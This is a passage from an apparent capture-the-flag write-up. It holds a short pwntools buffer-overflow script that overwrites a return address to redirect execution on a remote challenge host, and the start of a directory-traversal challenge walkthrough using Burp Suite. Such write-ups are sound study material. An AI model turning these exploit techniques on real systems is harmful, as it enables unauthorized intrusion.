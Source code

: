 ```python
from pwn import *

#r = process('chall')
r = remote("challs.ctf.cafe", 8888)
junk = b'A' * 12 # junk chars
exit = p64(0x004011a8) # format address
addr = p64(0x00401146) # format address

payload = junk
payload += exit
payload += addr
r.sendline(payload)
r.interactive()
```

## Web

### Blog

This is a Directory Traversal Exploit:

{% embed url="https://rouvin.gitbook.io/ibreakstuff/website-security/directory-traversal" %}

Blog presents us with a basic blog page:

<figure><img src="../.gitbook/assets/image (9) (7).png" alt=""><figcaption></figcaption></figure>

Using `burpsuite`, which passively scans the website, we can view the files present in the website:
